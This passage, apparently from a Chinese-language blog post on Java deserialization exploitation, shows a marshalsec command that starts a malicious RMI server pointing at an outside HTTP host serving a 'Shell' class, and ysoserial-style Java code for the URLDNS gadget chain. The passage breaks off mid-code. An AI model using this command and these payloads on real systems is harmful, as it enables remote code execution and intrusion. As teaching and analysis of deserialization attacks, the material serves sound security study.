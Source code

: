 RMI服务端则利用marshalsec攻击创建，如下所示：

	java -cp marshalsec.jar marshalsec.jndi.RMIRefServer "http://49.234.105.98:8080/#Shell" 1099

Notice: 需要再开一个Http服务传递Shell.class文件

![marshalsec服务端][p4]

## Java反序列化Gadget分析
### URLDNS
先给出ysoserial中的利用链：

	/**
	 * @author : p1n93r
	 * @date : 2021/3/31 11:28
	 * URLDNS Gadget分析
	 */
	public class URLDNS {
	
	    public static Object getObject(final String url) throws Exception {
	
	        //Avoid DNS resolution during payload creation
	        //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
	        URLStreamHandler handler = new SilentURLStreamHandler();
	
	        // HashMap that will contain the URL
	        HashMap ht = new HashMap();
	        // URL to use as the Key
	        URL u = new URL(null, url, handler);
	        //URL u = new URL(null, url);
	        //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
	        ht.put(u, url);
	
	        // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
	        Class<? extends URL> clazz = u.getClass();
	        Field hashCode = clazz.getDeclaredField("hashCode");
	        hashCode.setAccessible(true);
	        hashCode.setInt(u,-1);
	
	        return ht;
	    }
	
	    /**
	     * 防止创建payload的时候发送DNS解析请求
	     */
	    static class SilentURLStreamHandler extends URLStreamHandler {
	
	        @Override
	        protected URLConnection openConnection(URL u) throws IOException {
	            return null;
	        }
	
	